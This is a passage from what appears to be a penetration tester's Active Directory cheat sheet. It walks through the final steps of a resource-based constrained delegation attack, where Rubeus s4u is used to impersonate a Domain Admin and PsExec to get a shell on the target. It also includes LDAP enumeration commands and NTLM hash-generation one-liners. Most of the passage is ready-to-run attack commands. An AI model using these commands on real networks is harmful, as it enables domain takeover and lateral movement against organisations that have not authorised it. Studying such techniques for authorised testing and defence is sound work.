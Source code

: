 ```

# Check msds-allowedtoactonbehalfofotheridentity is set
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'

# test if the security descriptor assigned to ws01 in msds-allowedtoactonbehalfofotheridentity attribute refers to the fake01$ machine:
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).Discretionary
# Note that the SID should refer to fake01$ machine's SID 

# generate the RC4 hash of the password we set for the FAKE01 computer:
.\Rubeus.exe hash /password:<pass> /user:fake01 /domain:<domain>

# Once we have the hash, we can execute the attack by requesting a kerberos ticket for fake01$ with ability to impersonate user spotless who is a Domain Admin:
.\Rubeus.exe s4u /user:fake01$ /domain:offense.local /rc4:<hash> /impersonateuser:spotless /msdsspn:http/ws01 /altservice:cifs,host /ptt

# Check that we now have access
ls \\ws01\c$
.\PsExec.exe \\ws01 cmd
```

# ldap: 389
- https://gist.github.com/tscherf/a0be193fe7bd603bbe1f511f9a00e737
```
> ldapsearch -x -H ldap://<domain> -D 'support\ldap' -w '<pass>' -b "CN=Users,DC=support,DC=htb"
```

### ldap domain search
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result) { Foreach($prop in $obj.Properties) { $prop } }
```

# NTLM leak
- https://github.com/Gl3bGl4z/All_NTLM_leak
- https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html
```
# Convert password to ntlm hash

# NTLM hash generator: https://codebeautify.org/ntlm-hash-generator
> python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
> iconv -f ASCII -t UTF-16LE <(printf "password") | openssl dgst -md4
```
